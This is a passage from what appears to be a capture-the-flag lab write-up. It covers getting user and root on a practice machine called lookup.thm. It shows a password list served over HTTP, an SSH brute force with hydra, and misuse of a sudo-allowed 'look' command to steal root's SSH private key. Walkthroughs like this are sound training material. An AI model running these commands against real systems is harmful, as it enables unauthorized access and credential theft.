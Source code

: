 ```bash
/usr/sbin/pwm > passwords
python -m http.server 9090
```

{{<figure-dynamic
light-src="/images/lookup/light/download.png"
dark-src="/images/lookup/dark/download.png"
>}}

Then I ran a bruteforce attack against the `ssh` service for the user `think` with our new wordlist.

```bash
hydra -l think -P ./passwords -f lookup.thm ssh
```

{{<figure-dynamic
light-src="/images/lookup/light/crack.png"
dark-src="/images/lookup/dark/crack.png"
>}}

With the password login into the machine as `think` user and obtain the user flag.

## Root flag

Now I started with my privesc routine by checking first the `sudo` command.

```bash
sudo -l
```


And checkpot! The user `think` can use the `look` command as root.
This is a no-brainer. Checkout the [GTObins - look](https://gtfobins.github.io/gtfobins/look/) page. With `look` as root, I'm able to read files like I has root access.
Now, from here on there are multiple ways to Root.
The straight forward way would be to read the root flag by guessing the name of the file containing it.
Another way would be to steal the ssh private key of the root use and login into the root user itself.

The later one is the better, because in a real pentest, you don't have to read a special placed flag file, but to obtain as much privilege as possible.

That's why I stole the private key and used it to log in as root:

{{<figure-dynamic
light-src="/images/lookup/light/sshkey.png"
dark-src="/images/lookup/dark/sshkey.png"
>}}

After saving the key to my local machine, the permissions have to be set:

```bash
chmod 600 ./id_rsa
ssh root@lookup.thm -i ./id_rsa
```


> A key in PEM format like this one, has to have an empty line at the end.


Now, with root access, the last flag can be obtained.

Good luck! :)

---

{{<figure
src="/images/darksoulsMeme.png"
nozoom=true
>}}
